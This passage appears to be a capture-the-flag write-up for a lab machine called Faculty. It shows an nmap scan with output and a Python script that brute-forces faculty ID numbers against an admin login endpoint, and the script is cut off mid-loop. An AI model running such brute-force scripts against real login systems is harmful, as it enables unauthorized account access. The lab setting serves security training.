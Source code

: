 <h2> Faculty </h2>

Linux - Medium



1. Nmap scan 

~~~nmap
└─$ nmap -sC -sV -o faculty.nmap 10.10.11.169
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 06:03 EDT
Nmap scan report for 10.10.11.169
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
~~~

* Change /etc/hosts file to include faculty.
* This is what we are greeted with:
![](Faculty1.png)


* Tried to brute force the id..
~~~python
import requests
URL = "http://faculty.htb"
phpcookies = {"PHPSESSID":"p8puot3fnvvqksksq5e17ejnhn"}

print("[+] Running...")

for i in range(1,10000):
	if ( not (i % 1000) ):
		print(f"Current i: {i}")

	idData = {"id_no":i}

	if ( requests.post(URL + "/admin/ajax.php?action=login_faculty", cookies=phpcookies, data=idData ).text ) != "3":

~~~